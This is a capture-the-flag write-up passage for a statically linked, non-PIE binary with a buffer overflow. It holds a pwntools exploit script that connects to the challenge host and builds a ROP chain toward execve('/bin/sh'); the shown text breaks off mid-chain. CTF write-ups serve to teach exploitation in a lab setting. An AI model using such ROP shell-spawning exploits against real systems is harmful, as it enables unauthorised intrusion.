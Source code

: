 Everybody likes the dynamic side of things, what about the static?

Connect with:
nc jh2i.com 50002


Static binary, No-pie, This was yet another bufferoverflow, i did execve('/bin/sh',NULL,NULL).
#### exploit

```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('./sad')

host = args.HOST or 'jh2i.com'
port = int(args.PORT or 50002)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

# -- Exploit goes here --

io = start()
#gadgets
binsh = 0x483008
pop_rdi = 0x0047dd37
pop_rsi = 0x00464cf8
pop_rdx = 0x0040177f
pop_rax = 0x0043f8d7
syscall = 0x00475052
io.recvuntil('you need ;)\n')
rop = flat([
	'A'*0x100,
	'B'*8,
	pop_rdi,
	binsh,
	pop_rsi,
	0x0,
	pop_rdx,
	0x0,
```